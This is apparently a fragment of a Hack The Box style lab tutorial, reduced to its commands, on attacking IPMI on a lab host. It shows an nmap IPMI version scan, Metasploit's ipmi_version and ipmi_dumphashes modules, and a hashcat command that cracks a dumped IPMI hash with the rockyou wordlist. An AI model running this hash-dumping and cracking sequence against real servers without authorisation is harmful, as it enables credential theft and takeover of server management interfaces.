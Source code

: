 
```shell-session
u@htb[/htb]$ sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
```


```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
```


```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
```

```shell
hashcat -m 7300 -w 3 -O "93c887ae8200000052f17511d0fd3b9a08350b045e118a2cd0c311777576080bc13a5581d522cdb5a123456789abcdefa123456789abcdef140561646d696e:3541221bac8d7e76f34e45697aed40edfbe87fd8" /usr/share/wordlists/rockyou.txt
```


